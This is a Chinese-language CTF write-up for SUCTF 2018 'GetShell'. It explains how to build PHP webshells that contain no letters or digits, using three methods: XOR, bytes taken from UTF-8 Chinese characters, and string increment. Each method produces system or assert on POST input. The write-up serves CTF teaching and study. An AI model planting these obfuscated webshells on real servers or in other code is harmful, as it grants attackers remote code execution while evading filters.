



# [SUCTF 2018]GetShell



## 知识点

- 不包含数字和字母的webshell

## 解题

```php
<?=$_=[];$__.=$_;$____=$_==$_;$___=~茉[$____];$___.=~内[$____];$___.=~茉[$____];$___.=~苏[$____];$___.=~的[$____];$___.=~咩[$____];$_____=_;$_____.=~课[$____];$_____.=~尬[$____];$_____.=~笔[$____];$_____.=~端[$____];$__________=$$_____;$___($__________[~瞎[$____]]);

//system($_POST[a])
```



查看环境变量，拿到flag




## 方法一

两个字符串异或，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。

得到如下的结果（因为其中存在很多不可打印字符，所以我用url编码表示了）：

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_])
```

## 方法二

利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s`：


```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
//assert($_POST['a'])
```

这个答案还利用了PHP的弱类型特性。因为要获取`'和'{2}`，就必须有数字2。而PHP由于弱类型这个特性，true的值为1，故`true+true==2`，也就是`('>'>'<')+('>'>'<')==2`。

## 方法三

那么，如果不用位运算这个套路，能不能搞定这题呢？有何不可。

这就得借助PHP的一个小技巧，先看文档： http://php.net/manual/zh/language.operators.increment.php


也就是说，`'a'++ => 'b'`，`'b'++ => 'c'`... 所以，我们只要能拿到一个变量，其值为`a`，通过自增操作即可获得a-z中所有字符。

那么，如何拿到一个值为字符串'a'的变量呢？

巧了，数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。

在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为`Array`：


再取这个字符串的第一个字母，就可以获得'A'了。

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); 
// ASSERT($_POST[_]);
```